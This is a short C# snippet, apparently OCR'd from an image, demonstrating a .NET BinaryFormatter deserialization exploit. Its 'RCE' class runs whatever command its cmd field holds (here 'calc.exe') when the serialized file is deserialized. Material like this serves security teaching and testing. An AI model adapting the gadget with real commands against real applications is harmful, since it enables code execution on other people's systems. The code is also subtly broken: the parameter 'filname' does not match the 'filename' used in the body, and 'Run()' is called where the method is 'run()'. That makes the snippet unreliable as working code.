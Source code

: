 ```csharp

        public static void deleteFile(string filname)
        {
            if (File.Exists(filename))
            {
                Console.WriteLine("Deleting old file");
                File.Delete(filename);
            }
        }     

        public static void desertSerial(string filename)
        {
            // Create desert name
            var desert = new RCE();
            desert.cmd = "calc.exe";
            // Persist to file
            FileStream stream = File.Create(filename);
            var formatter = new BinaryFormatter();
            Console.WriteLine("Serializing desert (RCE)");
            formatter.Serialize(stream, desert);
            stream.Close();
        }

    }

    [Serializable]
    public class RCE : IDeserializationCallback
    {
        private String _cmd;
        public String cmd
        {
            get { return _cmd; }
            set
            {
                _cmd = value;
                //run(); Disabled to avoid spawning a calc while serializing 
            }
        }

        private void run()
        {
            System.Diagnostics.Process p = new System.Diagnostics.Process();
            p.StartInfo.FileName = _cmd;
            p.Start();
            p.Dispose();
        }

        public void OnDeserialization(object sender) {
            Run();
        }
    }
}
```
